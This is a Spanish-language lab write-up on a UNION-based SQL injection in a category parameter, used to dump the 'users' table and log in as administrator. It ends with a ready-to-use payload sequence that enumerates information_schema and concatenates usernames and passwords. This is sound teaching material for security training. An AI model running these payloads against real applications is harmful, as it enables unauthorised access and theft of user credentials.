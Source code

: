 En esta clase aplicamos de forma práctica todo lo aprendido en los labs anteriores sobre ataques UNION. El objetivo es utilizar una inyección SQL para extraer información de una tabla diferente: la tabla ‘**users**‘, que contiene columnas ‘**username**‘ y ‘**password**‘.

La vulnerabilidad sigue presente en el parámetro de categoría. Como los resultados de la consulta se muestran en la respuesta, es posible manipularla para que devuelva información sensible de otra tabla.

Los pasos clave son:

- Verificar cuántas columnas tiene la consulta original y cuáles aceptan texto, tal como se vio en los labs anteriores.
- Una vez identificado eso, se construye un payload que sustituye la consulta original por una que seleccione directamente los valores de las columnas ‘**username**‘ y ‘**password**‘ desde la tabla ‘**users**‘.
- Al inyectar correctamente la consulta, la respuesta mostrará las credenciales de todos los usuarios, incluida la del administrador.

Con esa información, simplemente accedemos al login de la aplicación, introducimos los datos del admin y completamos el laboratorio.

**Quédate con esto**: Los ataques UNION permiten acceder a información de tablas completamente distintas a la que consulta originalmente la aplicación, siempre que podamos controlar y visualizar parte de la respuesta. Aquí es donde una inyección SQL se convierte en una herramienta realmente poderosa.

-------

* Primero debemos de buscar el total de columnas existentes que nos muestra la Web
    + '  (para provocar un error en la consulta)
    + ' order by 2-- -
    + ' union select NULL,NULL-- -
    + ' union select NULL, schema_name from information_schema.schemata-- -
    + ' union select NULL, table_name from information_schema.tables where table_schema='DB'-- -
    + ' union select NULL, column_name from information_schema.columns where table_schema='DB' and table_name='TABLE'-- -
    + ' union select NULL, group_concat(username,0x3a,password) from DB.TABLE-- -
    + ' union select NULL, group_concat(username||0x3a||password) from DB.TABLE-- -
    + ' union select username,password from DB.TABLE-- - (aprovecharnos de las 2 columnas existentes)

